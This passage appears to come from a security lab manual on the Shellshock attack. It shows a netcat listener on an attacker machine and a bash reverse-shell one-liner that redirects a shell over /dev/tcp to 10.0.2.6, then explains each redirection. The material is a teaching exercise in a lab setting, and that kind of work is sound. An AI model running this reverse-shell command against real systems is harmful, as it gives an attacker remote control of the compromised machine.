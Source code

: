 \begin{lstlisting}
Attacker(10.0.2.6):$ nc -l 9090 -v  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Connection from 10.0.2.5 port 9090 [tcp/*] accepted
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
eth23  Link encap:Ethernet  HWaddr 08:00:27:fd:25:0f
       inet addr:(*@\textbf{10.0.2.5}@*)  Bcast:10.0.2.255  Mask:255.255.255.0
       inet6 addr: fe80::a00:27ff:fefd:250f/64 Scope:Link
       ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following \bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via the Shellshock attack. 
This \bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the \bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


\begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

